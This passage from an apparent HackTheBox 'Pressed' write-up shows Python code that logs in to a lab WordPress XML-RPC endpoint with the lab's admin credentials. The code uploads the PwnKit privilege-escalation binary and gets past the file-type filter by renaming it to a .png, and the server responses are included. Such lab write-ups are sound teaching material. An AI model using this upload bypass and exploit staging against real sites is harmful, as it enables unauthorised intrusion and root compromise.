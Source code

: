![image.png]({{ site.baseurl }}/assets/pressed/image%2024.png)

We now have a forward shell.

The year this challenge came out, there is a pwnkit exploit. Let’s try and use this one; just download the binary:

[https://github.com/ly4k/PwnKit](https://github.com/ly4k/PwnKit)

Since this is a relatively large file to just upload it via base64, let’s use xmlrpc method to upload. 

```bash
import collections
import collections.abc as _abc

# now import and use the library
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods import posts

client = Client('http://pressed.htb/xmlrpc.php', 'admin', 'uhc-jan-finals-2022')
plist = client.call(posts.GetPosts())

#####THE CODE ABOVE IS TO REMIND US WHAT WE HAVE DONE SO FAR

import xmlrpc.client
with open("PwnKit", "rb") as f:
	script = xmlrpc.client.Binary(f.read())
	

	
data = { 'name': 'pwnkit', 'bits': script, 'type': 'text/plain' }
client.call(media.UploadFile(data))
```

Response:

```bash
  File "/usr/lib/python3.13/xmlrpc/client.py", line 642, in close
    raise Fault(**self._stack[0])
xmlrpc.client.Fault: <Fault 500: 'Could not write file pwnkit (Sorry, you are not allowed to upload this file type.).'>

```

Let’s try uploading as an image type:

```bash
data = { 'name': 'pwnkit.png', 'bits': script, 'type': 'text/plain' }
client.call(media.UploadFile(data))
```

response:

```bash
{'attachment_id': '49', 'date_created_gmt': <DateTime '20251004T14:47:45' at 0x7f3f2afb98d0>, 'parent': 0, 'link': '/wp-content/uploads/2025/10/pwnkit.png', 'title': 'pwnkit.png', 'caption': '', 'description': '', 'metadata': False, 'type': 'text/plain', 'thumbnail': '/wp-content/uploads/2025/10/pwnkit.png', 'id': '49', 'file': 'pwnkit.png', 'url': '/wp-content/uploads/2025/10/pwnkit.png'}

```
